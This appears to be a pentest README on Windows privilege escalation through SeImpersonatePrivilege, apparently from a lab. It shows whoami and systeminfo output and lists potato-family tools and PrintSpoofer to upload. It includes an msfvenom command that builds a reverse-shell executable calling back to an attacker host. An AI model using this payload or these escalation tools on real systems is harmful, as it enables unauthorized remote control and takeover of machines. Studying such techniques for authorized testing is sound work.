 ### SeImpersonatePrivilege
How to exploit SeImpersonatePrivilege with different ways, it is also gud to check what version of operating system were dealing with
```
C:\Users\Public\Desktop>systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
System Type:               x64-based PC
Hotfix(s):                 4 Hotfix(s) Installed.
```

### Assume you have exploi a windows operating system and you run the **whoami/priv** you find that you can exploit to **nt authority\system**  throught tokenImpersonate, there many ways do this but when doing pentesting, in this blog am going to upload every technique i use when i meet this enviroment when approaching a target.

## Take an example
```
C:\Users\Public\desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

C:\Users\Public\desktop>
```

From the above scenarion there many ways you can try to exploit this but actually i am making this one so i can easy simplfy my way in with this easy way to become administrator.

## first thing were gonna need is transfering the following binaries into our target machine 
1. nc.exe (specific for windows)
2. RoguePotato.exe
3. JuicyPotato
4. payload with msfvenom specific for windows(msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe)
5. PrintSpoofer

```
C:\Users\Public\desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D582-9880

 Directory of C:\Users\Public\desktop

04/13/2024  08:59 AM    <DIR>          .
04/13/2024  08:59 AM    <DIR>          ..
04/13/2024  07:23 AM    <DIR>          Microsoft
04/13/2024  06:59 AM            59,392 nc.exe
04/13/2024  07:23 AM           347,648 potato.exe
04/13/2024  08:59 AM           159,232 rogue.exe
04/13/2024  07:28 AM             7,168 shell.exe
04/13/2024  08:39 AM            27,136 spoofer.exe
02/20/2020  03:14 AM             1,191 TeamViewer 7.lnk
               7 File(s)        601,801 bytes
               3 Dir(s)  13,362,515,968 bytes free
```
Everything required is available here no need to search for them online anymore, just this repostory is enough to go for root/administrator

# references
```
The following are the references i have used to create everything here

1.https://github.com/itm4n/PrintSpoofer/releases
2. https://github.com/ohpe/juicy-potato
3. https://github.com/antonioCoco/RoguePotato/tree/master/RoguePotato
4. https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe
5. https://juggernaut-sec.com/seimpersonateprivilege/
6. https://github.com/BeichenDream/GodPotato
7. https://www.hackingarticles.in/windows-privilege-escalation-seimpersonateprivilege/
8. https://github.com/antonioCoco/RoguePotato/tree/master
9. https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

```

